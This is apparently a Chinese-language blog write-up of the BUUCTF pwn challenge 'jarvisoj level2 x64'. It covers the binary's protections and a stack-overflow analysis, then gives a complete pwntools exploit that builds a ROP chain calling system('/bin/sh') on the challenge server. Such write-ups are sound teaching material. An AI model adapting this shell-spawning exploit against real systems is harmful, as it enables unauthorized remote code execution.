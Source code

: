 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2 x64
date: 2022-3-22 11:40:03
permalink: /pages/2e1547494524d188
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return system("echo 'Hello World!'");
}
```

Gadget

```shell
ROPgadget --binary level2_x64 --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000600a90 : /bin/sh
```

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数内明显的栈溢出漏洞
   - `plt`表内有`system`
   - 存在`/bin/sh`字符串
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有`system`，有`/bin/sh`，构造`rop`链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
io = remote('node4.buuoj.cn', 27585)
# io = process(pwnfile)
elf = ELF(pwnfile)
system_addr = elf.plt['system']
padding = 0x80+8
bin_sh_addr = 0x600A90
pop_rdi_ret = 0x4006b3
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendline(payload)
io.interactive()
```